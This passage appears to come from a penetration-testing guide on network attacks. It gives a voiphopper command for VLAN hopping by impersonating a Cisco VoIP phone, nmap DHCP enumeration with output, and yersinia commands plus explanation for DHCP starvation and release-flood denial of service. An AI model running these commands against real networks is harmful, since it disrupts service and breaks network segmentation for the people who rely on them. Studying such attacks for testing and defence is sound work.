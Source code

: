 The preferred mode for speed is the third one. It requires specifying:

* The attacker's network interface (`-i` parameter).
* The name of the VoIP device being emulated (`-E` parameter), adhering to the Cisco naming format (e.g., SEP followed by a MAC address).

In corporate settings, to mimic an existing VoIP device, one might:

* Inspect the MAC label on the phone.
* Navigate the phone's display settings to view model information.
* Connect the VoIP device to a laptop and observe CDP requests using Wireshark.

An example command to execute the tool in the third mode would be:

```bash
voiphopper -i eth1 -E 'SEP001EEEEEEEEE ' -c 2
```

### DHCP Attacks

#### Enumeration

```bash
nmap --script broadcast-dhcp-discover
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-16 05:30 EDT
WARNING: No targets were specified, so 0 hosts scanned.
Pre-scan script results:
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     IP Offered: 192.168.1.250
|     DHCP Message Type: DHCPOFFER
|     Server Identifier: 192.168.1.1
|     IP Address Lease Time: 1m00s
|     Subnet Mask: 255.255.255.0
|     Router: 192.168.1.1
|     Domain Name Server: 192.168.1.1
|_    Domain Name: mynet
Nmap done: 0 IP addresses (0 hosts up) scanned in 5.27 seconds
```

**DoS**

**Two types of DoS** could be performed against DHCP servers. The first one consists on **simulate enough fake hosts to use all the possible IP addresses**.\
This attack will work only if you can see the responses of the DHCP server and complete the protocol (**Discover** (Comp) --> **Offer** (server) --> **Request** (Comp) --> **ACK** (server)). For example, this is **not possible in Wifi networks**.

Another way to perform a DHCP DoS is to send a **DHCP-RELEASE packet using as source code every possible IP**. Then, the server will think that everybody has finished using the IP.

```bash
yersinia dhcp -attack 1
yersinia dhcp -attack 3 #More parameters are needed
```

A more automatic way of doing this is using the tool [DHCPing](https://github.com/kamorin/DHCPig)

